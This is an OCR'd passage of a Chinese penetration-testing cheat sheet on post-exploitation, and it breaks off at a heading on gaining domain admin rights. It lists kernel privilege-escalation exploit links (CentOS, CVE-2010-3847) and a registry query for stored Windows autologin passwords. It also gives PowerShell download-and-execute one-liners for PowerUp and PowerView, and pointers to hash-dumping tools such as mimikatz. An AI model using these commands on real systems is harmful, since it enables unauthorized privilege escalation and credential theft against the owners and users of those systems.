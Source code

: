 -   内核提权

    ```
    CentOS 2.6.32 (2013年之前)
    https://www.exploit-db.com/exploits/25444/
    CVE-2010-3847 (RHEL5版本)
    https://www.nigesb.com/cve-2010-3847-exp-centos.html
    https://www.exploit-db.com/exploits/25444/
    ```

-   枚举提权

    ```
    searchsploit (本地搜索漏洞库)
    linuxprivchecker.py (自动检测提权漏洞的脚本)
    ```

-   密码获取
    注册表读取自动登陆帐户密码:

    ```
    (cmd) reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
    (msf) post/windows/gather/credentials/windows_autologin
    ```

    ### powershell篇：

-   1.Empire 【综合渗透工具，类似于msf】
    可以生成木马，信息收集，提权，横向渗透以及后门
    https://github.com/EmpireProject/Empire.git

-   2.PowerUp 提权神器
    powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘’)
    powershell -exec bypass -Command “& {Import-Module .PowerUp.ps1; Invoke-AllChecks}”

-   3.PowerView 域渗透神器
    https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

-   4.powershell读取系统密码【示例，需要xp和2003以上的系统才自带powershell】：

    ```
    powershell "IEX (New-Object Net.WebClient).DownloadString('')
    powershell.exe -exec bypass -Command "& {Import-Module .\powerview.ps1;Invoke-UserHunter}"
    powershell===>Import-Module .\powerview.ps1 ===>Invoke-UserHunter
    ```

    导出系统密码或者hash,在导出域hash部分有详细介绍：

    ```
    meterpreter/mimikatz/pwdump7/wce/Getpwd_k8/QuarksPwDump
    ```

    https://github.com/gentilkiwi/mimikatz/

## 获取域管权限
